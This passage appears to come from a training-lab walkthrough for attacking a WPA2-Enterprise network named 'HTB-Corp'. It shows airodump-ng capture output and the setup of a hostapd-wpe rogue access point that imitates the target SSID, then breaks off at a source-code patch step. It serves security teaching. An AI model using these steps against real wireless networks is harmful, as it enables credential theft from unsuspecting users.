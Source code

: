 Next, students will use `airodump-ng` to capture the network traffic collected by the `wlan0mon` interface and save it to a file while taking note of the BSSIDs (MAC addresses) of the `HTB-Corp` network and the client connected to it. The MAC addresses are subject to change upon spawn/reset of the target.

Code: shell

```shell
airodump-ng wlan0mon -c 1 -w Student
```

```
root@HTB-Corp:/home/wifi# airodump-ng wlan0mon -c 1 -w Student

 CH  1 ][ Elapsed: 1 min ][ 2025-01-09 11:22 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100      700       53    0   1   54   WPA2 CCMP   MGT  HTB-Corp                           

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  F2:52:84:C4:CB:75  -29   48 -54      0       41                                                
 (not associated)   FE:FA:15:0B:33:58  -49    0 - 1      0        2                                                
 (not associated)   E6:AE:09:E1:7A:98  -49    0 - 1      0        2
```

Next, students open a new terminal, switch to the root user, and copy the `hostapd-wpe.conf` configuration file to their current working directory, and will change the value of the `interface` to `wlan1` and the value of the `ssid` from `hostapd-wpe` to `HTB-Corp`:

Code: shell

```shell
sudo -s
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
sed -i "s/wlan0/wlan1/g" hostapd-wpe.conf 
sed -i "s/ssid=hostapd-wpe/ssid=HTB-Corp/g" hostapd-wpe.conf
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
root@HTB-Corp:/home/wifi# sed -i "s/wlan0/wlan1/g" hostapd-wpe.conf 
root@HTB-Corp:/home/wifi# sed -i "s/ssid=hostapd-wpe/ssid=HTB-Corp/g" hostapd-wpe.conf
```

Students will recompile the `hostapd-wep` binary to patch to the `hostapd-2.6` source code:

Code: shell

```shell
cd /opt/hostapd-2.6 && patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
```
